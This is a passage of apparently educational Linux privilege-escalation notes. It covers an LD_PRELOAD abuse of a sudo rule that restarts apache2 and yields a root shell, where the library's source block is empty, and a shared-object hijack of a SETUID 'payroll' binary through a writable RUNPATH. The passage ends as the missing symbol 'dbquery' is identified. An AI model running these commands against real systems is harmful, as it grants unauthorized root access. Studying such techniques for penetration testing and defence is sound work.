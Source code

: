 ```c
```

Compile:
```console
zero@pio$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Now we can escalate privileges:
```console
zero@pio$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart 

id
uid=0(root) gid=0(root) groups=0(root)
```

---

# Shared Object Hijacking

Programs and binaries under development usually have custom libraries associated with them. Consider the following SETUID binary:
```console
zero@pio$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

Check their libraries:
```console
zero@pio$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

We see the non-standard library `libshared.so`. One such setting is the **RUNPATH** configuration. Libraries in this folder are given preference over other folders. This can be inspected using the readelf utility:
```console
zero@pio$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

We can see their location. Before compiling a library, we need to find the function name called by the binary.
```console
zero@pio$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so 
zero@pio$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000) 

zero@pio$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```
